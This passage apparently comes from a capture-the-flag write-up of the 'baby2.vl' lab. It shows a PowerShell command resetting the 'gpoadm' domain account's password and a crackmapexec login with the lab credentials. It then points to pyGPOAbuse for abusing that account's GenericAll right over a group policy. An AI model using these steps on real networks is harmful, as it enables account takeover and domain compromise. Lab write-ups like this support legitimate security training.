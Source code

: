     $cred = ConvertTo-SecureString 'osman.irem361!' -AsPlainText -Force

    set-domainuserpassword gpoadm -accountpassword $cred

>AND WE HAVE ACCESS GPOADM ;/

    ➜  baby2 crackmapexec smb baby2.vl -u 'GPOADM' -p 'osman.irem361!'
    SMB         dc.baby2.vl     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False)
    SMB         dc.baby2.vl     445    DC               [+] baby2.vl\GPOADM:osman.irem361!

>Now we have the gpoadm password, lets look deeper into that GenericAll privilege they have over the policy:

![alt text](../assets/images/2024-06-27-205724_483x666_scrot.png)

>Download pyGPOAbuse here;

[pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)

